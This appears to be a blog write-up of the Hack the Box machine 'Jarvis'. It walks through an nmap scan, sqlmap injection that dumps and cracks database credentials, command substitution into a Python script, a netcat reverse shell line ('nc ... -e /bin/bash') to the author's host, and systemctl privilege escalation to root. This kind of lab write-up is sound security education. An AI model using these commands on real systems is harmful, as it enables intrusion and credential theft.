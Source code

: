 +++
author = "Nick"
categories = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
date = 2019-11-09T16:06:00Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-2.png"
slug = "hack-the-box-jarvis"
summary = "Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!"
tags = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
title = "Hack the Box - Jarvis"
url = "/hack-the-box-jarvis"

+++


Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!

The first things we do is our standard nmap command ```nmap -sC -sV -oA jarvis 10.10.10.143``` We get back a small result

```
Nmap scan report for 10.10.10.143
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So the first thing we do is to head over to the http port and see what's being hosted. We see a hotel site. Many of the links are dead, but the rooms are not. So lets look at them. The first thing we notice is that the rooms page sends us to rooms-suites.php. There's a good chance that we can exploit some PHP. When we click on room 1 and wee it references ?cod=1

![](/images/2019/08/image-23.png" caption="This might be injectable.&nbsp;)

We can run some manual SQL injections against it to test. Turns out it is injectable. We actually get banned for 90 seconds by issuing '1=1'"--. So lets run some sqlmap against it. We run ```sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast``` We have to use --no-cast to convert our null values becuase the service running will likley ban us due to injection attempts.

![](/images/2019/08/image-10.png" caption="sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast)

Now that we've run our mapping successfully, we get back a list of databases. We will check the tables of the 'mysql' database by issuing ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql --tables```.

![](/images/2019/08/image-11.png)

Now that we've dumped the mysql table, lets dump the user portion of it. We issue ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user --dump``` The -D is for Database, the -T is for Table and well we know what --dump does.

Once we've dumped the table we have a user of DBAdmin. SQLMAP will offer to crack the password for us, so why not.

![](/images/2019/08/image-12.png" caption="The cracked password for the phpmyadmin DBAdmin account.)

We know that there is a phpmyadmin console running from enumerating the web service with dirbuster and the default word list.

Next we'll use SQLMAP --shell functionality to see if we can create a reverse shell. We'll issue ```sqlmap -u http://10.10.10.143/room.php?cod=6 -D hotel --os-shell --no-cast```.

![](/images/2019/08/image-13.png)

It worked, we  get a shell as www-admin. So we'll poke around the box. We see that there is a user called Pepper, but we can't access the user.txt file. We try to do some manual enumeration and see that there is a file we can run, simpler.py.

![](/images/2019/08/image-14.png)

When we run the python app as us, we can't. We can however run it as pepper. When we do we're greeted with a command screen:

![](/images/2019/08/image-24.png)

The script seems to give us some info on who would be considered an attacker. Lets look at the source of the script. When we do we see this function, exec_ping() that correlates to the -p command of the script.

![](/images/2019/08/image-15.png)

Now this is where I was having issues with the program. No matter how many times I attempted to run the program, i would get EOF errors:

![](/images/2019/08/image-25.png" caption="EOF Error?!)

So turns out that the shell I was getting from SQLMAP was sending some odd terminal characters in the blank space?! So, I created a quick MSFPayload with MSFPC for a php reverse shell and everything was easy from there out!

This is a text book command injection, with a twist. We have some forbidden characters. So normally, we would be able to issue something like ```simpler.py -p 1 & {MALICIOUS COMMAND}```. This would tell the os to ping an ip of 1 and then execute our malicous command. However, since & is forbidden as well as most standard concatination commands we'll need to be a little bit more creative. We can use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) since the $ is not forbidden.

The first thing we'll do is a create a small script to initiate a netcat connection back to us.

```bash
echo 'nc 10.10.15.197 4444 -e /bin/bash' > remote.sh
```

We'll then use Command Substitution within the python program to call thsi script. So in the end we have something like this:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(/bin/bash remote.sh)
```
So we'll initiate a netcat session: ```nc -lvnp 4444```

After we run it, we see our netcat session light up!

![](/images/2019/08/image-18.png" caption="We've obtained user!)

Now that we're logged in as pepper, lets snag our user key and move onto root!

The shells on the free box have been quite flakey so to hopefully mitigate this, I generated a new id_rsa.pub file and copied it to the box for easy ssh access. Alternatively you can echo your key to the file if it already exists.

![](/images/2019/08/image-19.png)

Now that I can ssh into the box, we download LinEnum.sh to the machine and see what pops up.

![](/images/2019/08/image-20.png)

While parsing through the LinEnum outputs, we see this line:

![](/images/2019/08/image-21.png)

Pepper has the ability to run systemctl. That's quite handy. So we do some googling around and find this: [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/). This will allow us to bypass the requirements for creating a Unit. So we can create a reverse shell task as root and hopefully obtain our flag!

![](/images/2019/08/image-26.png" caption="We follow the steps that are given to us by gtfobins and...)

We have root!

![](/images/2019/08/image-22.png)

Another one bites the dust! We'll see you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

